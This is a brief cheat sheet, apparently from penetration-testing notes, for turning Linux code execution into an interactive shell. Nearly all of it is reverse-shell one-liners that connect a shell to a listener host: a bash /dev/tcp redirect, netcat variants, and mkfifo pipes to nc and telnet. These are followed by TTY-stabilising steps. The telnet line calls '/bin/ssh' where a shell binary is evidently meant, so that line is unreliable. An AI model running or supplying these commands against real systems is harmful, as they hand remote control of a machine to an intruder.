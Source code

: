 # Linux code exec to shell

```text
bash -c 'bash -i >& /dev/tcp/<lhost>/<lport> 0>&1'
```

```text
# netcat
nc (-c/-e) /bin/sh <LHOST> <LPORT>
rm /tmp/y;mkfifo /tmp/y;cat /tmp/y|/bin/sh -i 2>&1|nc <LHOST> <LPORT> >/tmp/y

# telnet
rm /tmp/y;mkfifo /tmp/y;cat /tmp/y|/bin/ssh -i 2>&1|telnet <LHOST> <LPORT> >/tmp/y
```

## Stabilising shell

```text
SHELL=/bin/bash script -q /dev/null
[Ctrl + Z]
stty raw -echo
fg
reset
xterm
```

